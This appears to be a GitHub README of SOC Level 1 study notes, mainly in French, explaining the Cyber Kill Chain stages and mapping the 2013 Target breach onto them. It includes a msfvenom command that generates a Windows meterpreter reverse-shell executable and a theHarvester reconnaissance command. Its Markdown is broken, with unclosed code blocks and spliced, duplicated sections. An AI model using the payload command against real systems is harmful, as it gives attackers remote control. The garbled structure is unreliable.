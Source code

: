 # Cyber-Kill-Chain soc level 1 
The Cyber Kill Chain framework is designed for identification and prevention of the network intrusions. You will learn what the adversaries need to do in order to achieve their goals.
<!-- SCREENSHOT 1 - HEADER -->
![Schéma de la Cyber Kill Chain](images/cyberkillchain.png)  
*Fig.1 - Les 7 étapes de la Cyber Kill Chain (Lockheed Martin)*

## 📌 Introduction
La **Cyber Kill Chain** est un modèle de sécurité qui décrit les étapes d'une cyberattaque. Voici sa décomposition complète :

## 🔍 Les 7 Étapes Clés

### 1. Reconnaissance (Espionnage)
- **Objectif** : Collecter des informations sur la cible
- **Outils** : 
  ```bash
  theHarvester -d entreprise.com -b google # 🔗 Cyber Kill Chain - SOC Level 1 Path

## 2. Weaponization (Armement)
**Définition** :  
Création de l'arme numérique combinant malware et exploit.

**Méthodes** :
- 💾 Documents avec macros malveillantes
- 📦 Exploits zero-day
- 🧩 Kits d'exploitation (Metasploit)

**Outils SOC** :
```bash
# Génération de payload détectable par les SOC
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > malware.exe

# Analyse statique avec FLOSS (SOC Level 1)
floss malware.exe > analysis_report.txt .## 3. Delivery (Livraison)
**Définition** :  
Transmission du payload malveillant à la cible.

**Méthodes courantes** :
```mermaid
pie title Méthodes de Livraison (2023)
    "Phishing" : 65
    "Sites compromis" : 20
    "USB malveillants" : 10
    "Autres" : 5.## 💥 Exploitation (Piratage)

### 🎯 C'est quoi ?
Le moment où le pirate **active son attaque** après être entré dans le système.

### 🔧 Comment ça marche ?
1. Le pirate utilise :
   - Un **lien piégé** (phishing)
   - Une **faille logicielle** (ex: CVE-2023-1234)
   - Une **macro Word** malveillante

2. Résultat :  
   ```text
   [Attaquant]$ Accès réussi !  .## 🔐 Installation (Persistance)

### 🎯 Définition
Phase où l'attaquant s'installe durablement dans le système.

### 🔧 Techniques Courantes
```mermaid
graph TD
    A[Accès initial] --> B[Backdoor]
    A --> C[Web Shell]
    A --> D[Services Windows].## 🕹️ Command & Control (C2)

### 🔌 Définition
Mécanisme permettant aux attaquants de **contrôler à distance** les machines compromises.

### 🌐 Protocoles C2 Courants
```mermaid
pie title Protocoles C2 (2023)
    "HTTPS" : 45
    "DNS" : 30
    "WebSockets" : 15
    "Autres" : 10.## 💰 Actions on Objectives (Exfiltration)

### 🎯 Définition
Phase finale où l'attaquant **réalise son objectif** (vol de données, sabotage, etc.).

### 📦 Méthodes d'Exfiltration
```mermaid
graph LR
    A[Data] -->|FTP| B(Server Attaquant)
    A -->|DNS| B
    A -->|Cloud Storage| B.## 🔍 Practice Analysis - Target Breach 2013

### 📸 Attack Flow Visualization
![Target Breach Kill Chain](images/target_attack.png)  
*Visual breakdown of the Target Corporation cyberattack*

### 🔗 Kill Chain Mapping
```mermaid
graph TD
    A[Recon: HVAC Vendor] --> B[Weapon: Malware]
    B --> C[Delivery: Vendor Portal]
    C --> D[Exploit: Credential Theft]
    D --> E[Lateral Movement]
    E --> F[POS Data Exfiltration].
## 3. Delivery (Livraison)
**Définition** :  
Transmission du payload malveillant à la cible.

**Méthodes courantes** :
```mermaid
pie title Méthodes de Livraison (2023)
    "Phishing" : 65
    "Sites compromis" : 20
    "USB malveillants" : 10
    "Autres" : 5
## 💥 Exploitation

### 🎯 Definition
The phase where attackers **execute malicious code** by exploiting vulnerabilities in systems or human behavior.

### 🔧 Common Techniques
```mermaid
pie title Exploitation Methods (2023)
    "Software Vulnerabilities" : 55
    "Phishing Links" : 30
    "Human Error" : 15
